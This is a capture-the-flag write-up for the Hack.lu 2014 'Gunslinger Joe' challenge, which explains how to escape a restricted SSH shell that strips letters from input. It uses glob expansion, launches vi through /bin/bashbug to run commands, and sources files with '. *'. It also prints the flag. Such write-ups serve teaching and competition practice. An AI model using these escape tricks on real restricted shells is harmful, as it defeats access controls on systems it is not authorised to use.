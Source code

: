 # Hack.lu CTF 2014: Gunslinger Joe’s private Terminal

**Category:** Misc
**Points:** 50
**Author:** cutz
**Description:**

> Gunslinger Joe has a pretty bad memory and always forgets the password for his private terminals! That’s why he always uses his username as password but also makes sure that absolutely no one else who knows his name can interact with his secure terminal. Wouldn’t it be super embarrassing for him to prove him wrong?
>
> SSH: gunslinger_joe@wildwildweb.fluxfingers.net
> PORT: 1403

## Write-up

Let’s connect to the SSH server using `gunslinger_joe` as both the username and password, as stated in the challenge description:

```bash
$ ssh -p 1403 gunslinger_joe@wildwildweb.fluxfingers.net
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ id
$ ls
$ ls -lsa
: -: command not found
```

So we indeed have access to a shell, but something strange is going on… It seems like some characters are being filtered.

Entering `-` reveals that our input is passed as an argument to `bash`:

```bash
$ -
: -
: invalid option
Usage:  bash [GNU long option] [option] ...
  bash [GNU long option] [option] script-file ...
GNU long options:
  --debug
  --debugger
  --dump-po-strings
  --dump-strings
  --help
  --init-file
  --login
  --noediting
  --noprofile
  --norc
  --posix
  --rcfile
  --restricted
  --verbose
  --version
Shell options:
  -ilrsD or -c command or -O shopt_option   (invocation only)
  -abefhkmnptuvxBCHP or -o option
```

Realizing that causing a syntax error results in a helpful error message, I entered all printable ASCII characters to see which ones would be removed:

```
$ () { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~'
: -c: line 0: syntax error near unexpected token `)'
: -c: line 0: `() { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~''
```

So yeah, all alphabetic characters are removed from the input. Entering `*` reveals that there’s a file named `FLAG` in the current working directory:

```bash
$ *
: ./FLAG: Permission denied
```

Let’s check the root directory:

```bash
$ /*
: /bin: Is a directory
```

Hmm, what would the first item in `/bin/*` be?

```bash
$ /*/*
```

Yay! `/*/*` expands to `/bin/bashbug`, which causes `$EDITOR` — in this case, `vi` — to open. From within `vi` we can easily run arbitrary commands:

```
:!id
uid=1000(gunslinger_joe) gid=1000(gunslinger_joe) groups=1000(gunslinger_joe)

:!cat FLAG
flag{joe_thought_youd_suck_at_bash}
```

The flag is `flag{joe_thought_youd_suck_at_bash}`.

### Shorter solution

A shorter solution than the one depicted above, is the following.
Entering the character `.` displayed the error

```bash
$ .
: line 0: .: filename argument required
.: usage: . filename [arguments]
```

That looks like `.` is interpreted as a command. Earlier having figured out that `*` was a working way to iterate all files in the current directory, the following command yielded the right result:

```bash
$ . *
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

It’s still an error, but at least it delivers.

## Other write-ups and resources

* none yet
